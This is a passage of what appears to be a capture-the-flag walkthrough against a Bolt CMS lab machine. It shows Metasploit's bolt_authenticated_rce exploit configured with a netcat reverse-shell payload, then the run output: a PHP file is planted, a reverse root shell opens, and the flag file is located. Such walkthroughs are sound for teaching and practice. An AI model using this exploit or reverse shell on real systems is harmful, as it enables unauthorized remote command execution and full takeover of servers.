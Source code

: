 ```bash


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addre
                                       sses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.227.231    yes       The listen address (an interface may be specified)
   LPORT  9999             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/bolt_authenticated_rce) > 
```
```bash
msf6 exploit(unix/webapp/bolt_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.10.227.231:9999 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "hhrrsy".
[*] Found 2 potential token(s) for creating .php files.
[+] Deleted file mjuaewpru.php.
[+] Used token cb01515d6b82cdfef71835f1ab to create wvvkcehx.php.
[*] Attempting to execute the payload via "/files/wvvkcehx.php?hhrrsy=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 2 opened (10.10.227.231:9999 -> 10.10.195.64:57614) at 2023-06-30 02:35:24 +0100
[+] Deleted file wvvkcehx.php.
[+] Reverted user profile back to original state.

```
23. `whoami` to display who we're running as onto our terminal, which revealed that we were running as root
24. `find / -type f -name flag.txt 2>/dev/null` to recursively search for the flag.txt file starting from the root of the target's filesystem and display its location onto our terminal
25. `cat {FLAG TEXT PATH}` to display contents of the flag.txt file onto our terminal
```bash
whoami
root
```
```bash
find / -type f -name flag.txt 2>/dev/null
/home/flag.txt
```